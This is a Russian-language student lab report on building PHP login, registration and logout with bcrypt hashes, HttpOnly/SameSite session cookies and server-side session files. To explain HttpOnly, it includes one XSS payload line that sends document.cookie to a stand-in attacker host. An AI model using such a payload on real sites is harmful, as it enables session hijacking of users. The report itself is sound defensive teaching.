# Практическая работа №10. Авторизация: куки и сессии

**Студент:** Казыханов Владимир  
**Среда:** WSL (Ubuntu 24.04), локальная разработка  
**Сайт:** `http://localhost`  
**API:** `http://localhost:8000`

---

## Часть A. Подготовка и вёрстка

### Задание 1. Столбец password_hash

```sql
ALTER TABLE users ADD COLUMN password_hash VARCHAR(255) DEFAULT NULL;
ALTER TABLE users MODIFY password VARCHAR(255) NULL;
```

Вторая строка — сделал старую колонку `password` nullable, иначе INSERT новых пользователей падал бы (в них теперь идёт только `password_hash`, старое поле `password` остаётся пустым).



**Почему VARCHAR(255), а не VARCHAR(60)?** Текущий bcrypt-хеш — ровно 60 символов (`$2y$10$` + 22 символа соли + 31 символ хеша). 255 — запас на будущее: если перейдём на Argon2id, длина вырастет до ~95 символов; новые cost-факторы и алгоритмы могут потребовать ещё больше. 255 — исторически «бесплатный» максимум для VARCHAR в MySQL.

**Что было бы при VARCHAR(50)?** MySQL без `STRICT` молча обрезает строку при INSERT до 50 символов. В базу ляжет усечённый хеш, `password_verify()` потом всегда вернёт false — логин не будет работать ни с каким паролем, причём ошибки как таковой не появится. С `STRICT` режимом INSERT упадёт с `Data too long for column`.

---

### Задание 2. Partials

Создан `partials/nav.php`. Меню одно, но ветвится по `$_SESSION['user_id']`:

```php
<?php $is_logged = !empty($_SESSION['user_id']); ?>
<nav class="topnav">
  <a href="/" class="brand">Boardy</a>
  <a href="/messages.php">Все посты</a>
  <?php if ($is_logged): ?>
    <a href="/submit.php">Добавить пост</a>
    <span class="greeting">Привет, <?= htmlspecialchars($_SESSION['user_name']) ?>!</span>
    <a href="/logout.php">Выйти</a>
  <?php else: ?>
    <a href="/login.php">Вход</a>
    <a href="/register.php">Регистрация</a>
  <?php endif; ?>
</nav>
```

Подключается через `include __DIR__ . '/partials/nav.php'` на каждой странице с шапкой.





**Почему меню вынесено в отдельный файл?** DRY. Сейчас шапка подключается на 4 страницах (`messages.php`, `submit.php`, `register.php`, `login.php`). Если бы меню было в каждой копией — любое изменение (новая ссылка, другой цвет, логотип) пришлось бы править в 4 местах. С `include 'partials/nav.php'` изменил один файл — поменялось везде. Это тот же паттерн, что потом будет в Laravel через Blade-шаблоны (`@include('partials.nav')`).

**Что изменится, если добавить «Избранное»?** Одна правка в `nav.php` — добавить `<a href="/favorites.php">Избранное</a>` в нужную ветку (гость/залогиненный). Ни одну другую страницу трогать не нужно — они просто подключают обновлённое меню.

---

### Задание 3. Вёрстка форм

Свёрстаны `register.php` (макет 3) и `login.php` (макет 4). Одинаковый фон шапки `#1A5276`, центрированная форма, поля имя/email/пароль для регистрации и email/пароль для логина, под кнопкой — ссылка на противоположную страницу.





---

## Часть B. Регистрация и логин

### Задание 4. Регистрация

В `register.php` добавлен обработчик POST: валидация полей → проверка уникальности email → `password_hash()` → INSERT → `$_SESSION['user_id'] = lastInsertId()` → redirect на `/messages.php`. Это и есть автологин — сессия создаётся сразу после успешного INSERT, пользователю не нужно отдельно логиниться.

```php
$hash = password_hash($_POST['password'], PASSWORD_BCRYPT);
$stmt = $pdo->prepare('INSERT INTO users (name, email, password_hash) VALUES (?, ?, ?)');
$stmt->execute([$name, $email, $hash]);
$_SESSION['user_id']   = $pdo->lastInsertId();
$_SESSION['user_name'] = $name;
header('Location: /messages.php'); exit;
```

После регистрации под именем «Владимир» (email `vladimir@test.com`) сразу попал на `messages.php`, в шапке виден `Привет, Владимир!` и ссылка `Выйти`.



---

### Задание 5. Хеш в базе

```sql
SELECT id, name, email, password_hash FROM users;
```

В колонке `password_hash` для моего пользователя (id=5) лежит bcrypt-хеш `$2y$10$Ct8cz1Wi...` (60 символов). У старых пользователей (id 1–4) `password_hash` = NULL, потому что они создавались до введения этой колонки.



**Структура хеша `$2y$10$Ct8cz1Wi...`:**

| Часть | Значение | Что означает |
|---|---|---|
| `$2y$` | версия алгоритма | bcrypt (вариант `2y` — с исправлением бага Blowfish 2011 года) |
| `10$` | cost factor | 2^10 = 1024 итерации, ~50–80 мс на современном CPU |
| `Ct8cz1Wi...` (22 символа) | соль | случайная, сгенерирована `password_hash()` автоматически |
| далее 31 символ | собственно хеш | результат bcrypt над (пароль + соль) |

Главное: соль лежит **внутри** хеша, поэтому `password_verify()` не нужно её передавать отдельно — она извлекается из строки в БД.

**Что произойдёт, если cost factor увеличить с 10 до 15?** Каждая единица cost-фактора удваивает количество итераций. 15 − 10 = 5 → хеш станет в `2^5 = 32` раза медленнее. Было ~50 мс на логин — станет ~1.6 секунды. Для пользователя это заметная пауза, для атакующего с украденной базой — во столько же раз дольше перебор. Баланс: рекомендация PHP на 2026 год — cost 12. Cost 15 — параноидально медленно, но ещё рабочий вариант.

---

### Задание 6. Защита от повторной регистрации

Перед INSERT делается проверка:

```php
$stmt = $pdo->prepare('SELECT id FROM users WHERE email = ?');
$stmt->execute([$email]);
if ($stmt->fetch()) {
    $error = 'Email уже занят';
}
```

Попытка зарегистрировать второго пользователя с тем же `vladimir@test.com` — форма вернулась с сообщением «Email уже занят».



**Зачем проверять email перед INSERT? Что будет без проверки?** Два сценария:

1. На `users.email` стоит UNIQUE-ограничение (по-хорошему должно стоять). Тогда INSERT упадёт с `SQLSTATE 23000 Duplicate entry`. Пользователь увидит 500 вместо «email занят». Некрасиво и даёт атакующему подсказку, что email в базе есть.
2. UNIQUE не стоит. Тогда в базе появятся два разных user_id с одним email. Логин сломается: `WHERE email = ?` вернёт несколько строк, `fetch()` даст первую, `password_verify()` пройдёт или не пройдёт случайно. Классический способ случайно «залогиниться под другим».

Правильно: и UNIQUE в схеме, и явная проверка в коде с человекочитаемой ошибкой.

---

### Задание 7. Логин

Обработчик `login.php`: SELECT по email → `password_verify()` → сессия + redirect.

```php
$stmt = $pdo->prepare('SELECT id, name, password_hash FROM users WHERE email = ?');
$stmt->execute([$email]);
$user = $stmt->fetch(PDO::FETCH_ASSOC);
if ($user && password_verify($_POST['password'], $user['password_hash'])) {
    $_SESSION['user_id']   = $user['id'];
    $_SESSION['user_name'] = $user['name'];
    header('Location: /messages.php'); exit;
}
```

Залогинился под `vladimir@test.com` / `qwerty123` — редирект на `/messages.php`, шапка обновилась.



---

### Задание 8. Неверный пароль

Попытка логина с правильным email, но неправильным паролем — возвращается форма с сообщением «Неверный email или пароль». Такое же сообщение возвращается, если email вообще нет в базе.



**Почему сообщение одинаковое и для «email не найден», и для «неверный пароль»?** Разные сообщения — это **user enumeration**: злоумышленник через форму логина перебирает email-ы и по разным ответам определяет, какие зарегистрированы в системе. Дальше — фишинг именно по этим адресам, атаки по словарю паролей, social engineering. Одно общее сообщение не даёт понять, где ошибка — в email или в пароле. Пользователя это чуть напрягает, атакующего — блокирует.

---

## Часть C. Куки и сессии

### Задание 9. Кука PHPSESSID

После логина в DevTools → Application → Cookies видна единственная кука `PHPSESSID` со значением `8ajiho87tjjm56v11qehlds6mt` (26 символов).



**Что хранится в значении куки?** Только случайный идентификатор сессии. Это **не пароль, не имя, не email** — просто случайная строка, генерируется PHP при `session_start()` через CSPRNG. Имя пользователя и user_id хранятся не здесь, а в файле на сервере (см. задание 12). Кука — это ключ от шкафчика; содержимое шкафчика — на сервере.

Значение берётся из PHP: `session_start()` при первой сессии вызывает `session_create_id()`, который читает `/dev/urandom` и кодирует байты в строку.

---

### Задание 10. Параметры куки

В каждом файле, где вызывается `session_start()`, сначала идёт:

```php
session_set_cookie_params([
    'lifetime' => 0,
    'path'     => '/',
    'secure'   => false,
    'httponly' => true,
    'samesite' => 'Lax',
]);
session_start();
```

В DevTools у куки PHPSESSID видны: `HttpOnly ✓`, `SameSite = Lax`, `Secure` пустой.



**Про `secure => false`.** В локальной среде `http://localhost` без HTTPS использовал `secure => false` — иначе браузер не принимает куку по HTTP даже на localhost, кука просто не сохраняется. На проде (с HTTPS от Let's Encrypt, как в практике 5) нужно `secure => true`, чтобы кука уходила только по зашифрованному каналу и её нельзя было перехватить MITM-атакой на Wi-Fi.

**Что изменится, если убрать HttpOnly? Как использовать в XSS-атаке?** Без HttpOnly кука становится видна из JavaScript через `document.cookie`. Сценарий XSS:

1. Атакующий находит место, где сайт выводит пользовательский ввод без `htmlspecialchars()` (например, в комментариях).
2. Вставляет комментарий: `<script>fetch('https://evil.com/?c='+document.cookie)</script>`.
3. Жертва открывает страницу — скрипт выполняется в её браузере, её PHPSESSID улетает на сервер атакующего.
4. Атакующий ставит себе куку с этим значением — он залогинен под жертвой.

HttpOnly ломает шаг 2: `document.cookie` просто не видит PHPSESSID. XSS всё ещё плохо (атакующий может делать действия от имени жертвы, пока она на сайте), но угнать сессию и использовать её потом — уже не получится.

---

### Задание 11. HttpOnly на практике

В DevTools → Console:

```javascript
document.cookie
// ""
```

PHPSESSID в куках есть (видна в Application → Cookies), но JavaScript её не видит — возвращается пустая строка.



**Почему PHPSESSID не видна JavaScript, хотя кука существует?** Флаг HttpOnly выставлен в Set-Cookie сервером. Браузер куку сохраняет и отправляет её в заголовке `Cookie` на каждый запрос (это работает независимо от HttpOnly — это основная функция куки). Но API `document.cookie` фильтрует выдачу: куки с флагом HttpOnly просто не попадают в возвращаемую строку. Реализовано на уровне браузерного движка, JavaScript обойти не может.

---

### Задание 12. Файл сессии на сервере

В WSL файлы сессий хранятся не в `/tmp/`, как в стандартной методичке, а в `/var/lib/php/sessions/` (дефолт для Ubuntu-пакета php-fpm). Доступ только у `www-data`, поэтому `sudo`:

```bash
sudo ls -la /var/lib/php/sessions/
sudo cat /var/lib/php/sessions/sess_4lejl1d8a543b9247fj2u6b04g
```

Вывод:

```
-rw------- 1 www-data www-data 46 Apr 22 23:02 sess_4lejl1d8a543b9247fj2u6b04g

user_id|i:5;user_name|s:16:"Владимир";
```



**Что хранится в файле?** Сериализованный массив `$_SESSION` в формате PHP session serializer: `user_id|i:5` — integer 5, `user_name|s:16:"Владимир"` — строка длиной 16 байт (8 символов кириллицы × 2 байта в UTF-8).

**Сравнение с кукой:**

| | Кука PHPSESSID | Файл `/var/lib/php/sessions/sess_<ID>` |
|---|---|---|
| Где | Браузер клиента | Диск сервера |
| Что | Случайный ID (26 символов) | Реальные данные сессии (user_id, user_name) |
| Владелец файла | — | `www-data` (только сервер) |
| Видно пользователю | Да (DevTools) | Нет (права 600) |
| Меняется | При логине/логауте | При любом `$_SESSION[...] = ...` |

**Почему разделено именно так?** Всё критичное лежит на сервере, клиент получает только ключ. Если бы user_id и user_name хранились в самой куке — пользователь мог бы подменить свой user_id и залогиниться под чужим аккаунтом (кука полностью под его контролем, в DevTools её можно редактировать). А случайный ID подменить нельзя: невозможно угадать 20+ случайных символов, чтобы попасть в чужой живой файл сессии. Плюс хранение на сервере даёт контроль: можно разом «разлогинить всех», удалив `/var/lib/php/sessions/sess_*`.

---

## Часть D. Защита и доработка

### Задание 13. Защита страниц

В `submit.php` в самом начале, до любого вывода:

```php
session_set_cookie_params([...]);
session_start();
if (empty($_SESSION['user_id'])) {
    header('Location: /login.php');
    exit;
}
```

Проверка через curl без куки:

```bash
curl -v http://localhost/submit.php 2>&1 | head -30
```

Ответ:

```
< HTTP/1.1 302 Found
< Set-Cookie: PHPSESSID=3n7jtjr9mfuun75b6sog5q5uuq; path=/; HttpOnly; SameSite=Lax
< Location: /login.php
```

Тело страницы не пришло — `exit` после `header()` остановил выполнение. Интересный момент: сервер всё равно выдал `Set-Cookie` с новой сессией, но в ней нет `user_id`, поэтому она бесполезна для доступа к защищённым страницам.



---

### Задание 14. Посты с автором

В `messages.php` заменён старый запрос на JOIN:

```sql
SELECT p.id, p.body, p.created_at,
       u.name AS author_name
FROM posts p
JOIN users u ON p.author_id = u.id
ORDER BY p.created_at DESC;
```

Залогинился под первым пользователем (Владимир), создал пост «Практика 10 Куки и сессии». Вышел, зарегистрировался вторым пользователем (Алексей), создал пост «Практика 10 Задание_к_отчёту». В ленте видны оба — с разными именами авторов, плюс старые посты из предыдущих практик (Иванов, Петров, Сидорова, CheckTest).



**Почему JOIN, а не два отдельных запроса?** Классическая N+1 проблема. Если бы делали так:

```sql
SELECT id, body, author_id FROM posts;          -- 1 запрос
-- потом для каждого поста:
SELECT name FROM users WHERE id = ?;            -- N запросов
```

— то на 100 постах получилось бы 101 поход в БД. Каждый поход — парсинг SQL, открытие транзакции, сетевая задержка. С JOIN — один запрос, одна транзакция, сервер БД сам эффективно соединит таблицы по индексу `users.id` (PK). Разница на длинной ленте — 100х по времени.

---

### Задание 15. Добавление поста

`submit.php` свёрстан по макету 5: защищённая форма (textarea + кнопка), шапка показывает меню залогиненного. INSERT использует `$_SESSION['user_id']` вместо хардкода:

```php
$stmt = $pdo->prepare('INSERT INTO posts (title, body, author_id) VALUES (?, ?, ?)');
$stmt->execute(['', $_POST['body'], $_SESSION['user_id']]);
```

После сабмита пост появляется в ленте с моим именем.



---

### Задание 16. Logout

```php
<?php
session_set_cookie_params([...]);
session_start();
$_SESSION = [];
session_destroy();
setcookie('PHPSESSID', '', [
    'expires'  => time() - 3600,
    'path'     => '/',
    'secure'   => false,
    'httponly' => true,
    'samesite' => 'Lax',
]);
header('Location: /messages.php'); exit;
```

После клика на «Выйти» меню снова гостевое, PHPSESSID в DevTools пропал.





**Что делает `session_destroy()`?** Удаляет файл `/var/lib/php/sessions/sess_<ID>` и обнуляет данные текущей сессии. На сервере ключ больше никуда не ведёт.

**Зачем ещё `setcookie()` с прошедшей датой?** `session_destroy()` работает только с серверной стороной. Кука в браузере остаётся — она живёт по таймеру, выставленному при создании, и сервером управляется только через Set-Cookie. `setcookie('PHPSESSID', '', expires в прошлом)` — явная команда браузеру: забудь эту куку.

**Что останется, если сделать только одно:**

| Сделано | Что плохо |
|---|---|
| Только `session_destroy()` | Кука в браузере живёт. Следующий запрос отправит несуществующий ID, PHP создаст новую пустую сессию — выглядит как гостевой режим, но в `/var/lib/php/sessions/` плодятся «осколочные» файлы. |
| Только `setcookie()` | Файл `/var/lib/php/sessions/sess_<ID>` висит до gc (по умолчанию ~24 минуты). Если кто-то успел скопировать значение куки — может вручную поставить её себе и войти под жертвой, пока файл не удалён. |

Оба действия вместе: кука уходит из браузера сразу + файл убивается сразу, окно атаки — 0.

---

### Задание 17. Истёкшая сессия

Залогинился, в DevTools → Cookies значение PHPSESSID = `hoc74506vmtf0r2brsc63ib8cj`. По SSH удалил файл:

```bash
sudo rm /var/lib/php/sessions/sess_hoc74506vmtf0r2brsc63ib8cj
```

Обновил `/submit.php` в браузере — редирект на `/login.php`, несмотря на то что кука PHPSESSID в DevTools по-прежнему живая.



**Почему браузер думает, что залогинен, а сервер — нет?** Состояние разнесено по двум сторонам, и синхронизировать их некому:

- **Браузер** знает только куку PHPSESSID. Он её хранит и отправляет при каждом запросе. Про файл на сервере он не в курсе и знать не может — это чужая файловая система.
- **Сервер** при `session_start()` читает куку, ищет файл `/var/lib/php/sessions/sess_hoc74506...`. Файла нет — PHP молча создаёт новую пустую сессию. `$_SESSION['user_id']` → `empty`.
- Проверка `if (empty($_SESSION['user_id']))` в начале `submit.php` срабатывает → redirect на `/login.php`.

Кука живая, но «шкафчик», к которому она подходила, пустой. Это тот же механизм, что использует сервер при массовом разлогине: никаких уведомлений клиентам не нужно, на следующем же запросе PHP сам определит, что сессии нет, и перенаправит на логин.

---

## Сдача через Pull Request

Создана ветка `lab10`, сделан коммит со всеми изменениями (partials, register.php, login.php, logout.php, обновлённые messages.php и submit.php, auth.css, Report.md и скриншоты). Открыт Pull Request `lab10 → main` в репозитории `github.com/VaveyNL/web-architecture`.


